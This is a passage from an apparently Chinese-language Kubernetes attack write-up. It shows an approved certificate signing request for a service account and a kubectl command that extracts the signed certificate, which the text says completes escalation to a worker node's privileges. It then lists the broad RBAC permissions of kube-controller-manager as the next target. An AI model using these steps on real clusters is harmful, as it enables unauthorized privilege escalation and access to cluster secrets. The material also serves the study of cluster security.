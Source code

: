 ```yaml
  - system:authenticated
  request: xxxxxxx
  signerName: kubernetes.io/kube-apiserver-client-kubelet
  uid: e0b244eb-d722-45d1-86d0-3c76fde6020f
  usages:
  - key encipherment
  - digital signature
  - client auth
  username: system:serviceaccount:default:be-test
status:
  certificate: xxxxx
  conditions:
  - lastTransitionTime: "2023-02-23T14:43:17Z"
    lastUpdateTime: "2023-02-23T14:43:17Z"
    message: This CSR was approved by kubectl certificate approve.
    reason: KubectlApprove
    status: "True"
    type: Approved
```

转储申请到的证书`kubectl get csr k8sworker1.example.net -o jsonpath='{.status.certificate}' | base64 -d > k8sworker1.example.net.crt`

通过生成的`k8sworker1.example.net.crt`和`k8sworker1.example.net-key.pem`完成权限提升，获取`k8sworker1.example.net`节点角色权限


### 尝试申请Kubernetes系统组件的凭证副本

以`system:kube-controller-manager`为例

kube-controller-manager组件绑定的角色权限相比于node更多，权限列表如下：

```text
Resources                                       Non-Resource URLs                     Resource Names                          Verbs
secrets                                         []                                    []                                      [create delete get update]
serviceaccounts                                 []                                    []                                      [create get update]
events                                          []                                    []                                      [create patch update]
events.events.k8s.io                            []                                    []                                      [create patch update]
endpoints                                       []                                    []                                      [create]
serviceaccounts/token                           []                                    []                                      [create]
tokenreviews.authentication.k8s.io              []                                    []                                      [create]
selfsubjectaccessreviews.authorization.k8s.io   []                                    []                                      [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []                                      [create]
subjectaccessreviews.authorization.k8s.io       []                                    []                                      [create]
leases.coordination.k8s.io                      []                                    []                                      [create]
endpoints                                       []                                    [kube-controller-manager]               [get update]
leases.coordination.k8s.io                      []                                    [kube-controller-manager]               [get update]
                                                [/api/*]                              []                                      [get]
                                                [/api]                                []                                      [get]
```